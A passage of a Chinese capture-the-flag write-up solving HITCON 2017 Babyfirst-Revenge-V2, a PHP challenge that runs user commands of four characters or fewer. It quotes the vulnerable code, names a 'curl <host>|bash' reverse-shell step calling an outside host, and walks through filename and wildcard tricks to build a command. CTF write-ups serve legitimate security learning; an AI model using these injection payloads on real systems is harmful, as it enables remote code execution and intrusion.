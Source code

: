 <figure class="wp-block-image size-full"><img src="https://fushuling.com/wp-content/uploads/2022/11/1-5.png" alt="" class="wp-image-380"/></figure>


可以看到这里我ls -t根本看不到.2这个文件，只有ls -a -t才行，只能说当时我太傻逼了。但通过这个题我还是学到了一种神奇的linux注入方法，可以比拟上次dasctf用*拿flag了。当我写完这道题时，发现还有道Babyfirst-Revenge-V2，对字符数再次做了限制，感觉挺有意思的，因此我准备再挑战一下。

<h2>[HITCON 2017]Babyfirst-Revenge-V2</h2>

```
<?php
    echo $_SERVER['REMOTE_ADDR']."\n";
    $sandbox = '/var/www/html/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

可以看到这道题和上道题唯一的差别就是从&lt;= 5缩减到了&lt;= 4，对利用条件再次做了苛刻的限制，那我们思考下在这种情况下该如何拿到flag呢？

首先，<code>ls&gt;&gt;_</code>这个技巧在这儿行不通了，现在只能有四个字符，这个不行的话会对我们构造命令产生极大的阻碍，用上道题的方法的话这里可能有点行不通。

简单分析下，首先反弹shell这里的思路是不变的，肯定还是要弹shell，而且回看我们之前构造<code>generate `curl 82.157.233.xxx|bash`</code>的代码，很明显每次执行都没超过四个字符(在/前加/是为了转义/，所以//其实就是/)，不过其实就算超过了也挺好解决的，再细分一下就行了，所以关键还是构造出<code>ls -th&gt;g</code>。

这里就要用到之前我提过的dasctf里用到过的一个知识点，在当前工作目录下使用*命令，会将目录名当作命令执行（顺序）

<figure class="wp-block-image size-full"><img src="https://fushuling.com/wp-content/uploads/2022/11/1-6.png" alt="" class="wp-image-386"/></figure>


可以看见这里有三个文件夹，我们输入他会匹配第一个cat然后作为命令执行。当然，作为通配符的也可以通过*s通配ls，这个算很常见的知识点了，有了这个东西我们就可以思考如何简化命令了。

但这里还有个问题，我们之前是用ls>>把所有文件写入的，而现在我们只有四个字符了，如果用ls的话会把所有东西都写进去，也就是本身也会写进_里，这无疑会对我们构造命令产生极大的影响，而且因为没法用，用/分割命令也没用，这时候又有一个小知识点或者说常识，用dir a bv会只把a b写进去，这样就不会对我们构造的命令产生影响了。

现在我们要思考如何像之前一样构造ls -t&gt;g，这里我看官方wp还用了rev也就是倒转的技巧，首先构造了<em>g&gt; ht- sl</em>，然后构造了rev文件夹，用*v&gt;x构造出了正向的ls -th&gt;g。

将 " ht- sl" 写到文件 "v"：

```
'>dir', 
'>sl', 
'>g\>',
'>ht-',
'*>v',
```

<figure class="wp-block-image size-full"><img src="https://fushuling.com/wp-content/uploads/2022/11/1-7.png" alt="" class="wp-image-387"/></figure>


然后倒转v里的字符放到x里：

```
'>rev',
'*v>x',
```
